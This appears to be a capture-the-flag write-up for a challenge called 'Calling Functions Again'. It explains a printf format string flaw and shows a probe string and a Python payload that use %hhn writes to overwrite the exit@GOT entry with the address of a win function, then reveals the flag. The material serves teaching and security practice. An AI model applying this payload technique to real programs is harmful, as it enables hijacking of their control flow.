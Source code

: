 # Challenge `Calling Functions Again` Writeup

- Vulnerability: 
  - Format strings
- Where:
  - printf function
- Impact:
  - allows to call functions

## Analyzing the server

The main function call a function which reads the user input to a buffer then exits the program.

## Exploit

By running `gdb` its possible to find the address of the `win` function. 
Using `objdump -R bin` will tells us the address of `exit@GOT`.
Sending the following format string
```
"AAAA.%08x.%08x.%08x.%08x.%08x.%08x.%08x"
```
and verifying that the 7th register is filled with `41` (the value of `A`) tell us that we control the 7th register.
To call the `win` function we need to overwrite the `exit@GOT` address with the address of the `win` function.
Like in previous challenges, we can write the address byte by byte using the `%hhn` specifier.
```python
payload =  p32(exit_gop+2) + b'%007$hhn'                       
payload += p32(exit_gop+3) + b'%010$hhn'                  
payload += p32(exit_gop+1) + b'%000120c' + b'%013$hhn'     
payload += p32(exit_gop+0) + b'%000019c' + b'%018$hhn'   
```
Revealing the flag `SSof{You_G_O_T_me}`.

## Implementation

Full implementation can be found [here](calling-functions-again.py).
